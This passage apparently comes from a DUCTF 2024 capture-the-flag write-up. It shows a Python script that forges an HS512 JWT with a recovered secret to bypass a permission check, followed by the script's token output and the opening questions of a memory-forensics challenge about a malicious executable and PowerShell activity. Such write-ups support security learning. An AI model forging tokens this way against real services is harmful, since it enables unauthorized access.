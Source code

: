With the secret, we can finally forge our own JWT token to bypass the permission check.

```
import jwt

data = {"subject_id": 1, "exp": 1920187883}
JWT_SECRET = "3gHsCBkpZLi99zyiPqfY/NfFJqZzmNL4BAhYN8rAjRn49baTcnmyGISLD6T58XcWIUYrBfltI2iq2N6OHQSrfqBRFxFta61PvmnfRyn8Ep8T55lvLT8Es62kN3x35Bcb0OZmOGmM/zKf2qadcBq3Nbq1MiIVKJMz4w3JOk4orwFPtSNpNh8uaSQQUNMKTT6cvD9bvRvFNeeHYSPhDFwayPIRr5TJ+BpIRTUTfc1C3WCKoOuXCz2t+ISZo5yYwZ6U5w7NKFTTuDqMP/dXevkVykuntdej55XE3fsCP+UVFUT2JrY+Z9Q1aKTgavQR5smYVn93RlpbFwCoSStoANnoi"

encoded = jwt.encode(data, JWT_SECRET, algorithm="HS512")
print(encoded)
```

```
└─$ python script.py 
eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJzdWJqZWN0X2lkIjoxLCJleHAiOjE5MjAxODc4ODN9.6_Al8k0dDcd86Mza6fuhaTfu08RHZQ4QtDspXJCpnYYI_9cWWGIGUMnXD7zqQBTQaV1F8WxAYZhx5KG16yCVhA
```

Replacing the JWT token, the permission check was succesfully bypassed and the flag can be obtained.

![token](/assets/posts/ductf2024/token.png)

## Lost in Memory [Forensics]
Question: Looks like one of our Emu soldiers ran something on an Outpost machine and now it's doing strange things. We took a memory dump as a precaution. Can you tell us whats going on?
1. What was the name of the malicious executable? eg malicious.xlsm<br>
2. What was the name of the powershell module used? eg invoke-mimikatz<br>
3. What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)? eg malware.exe-malware2.exe<br>
4. What was the password of the new account created through powershell? eg strong-password123
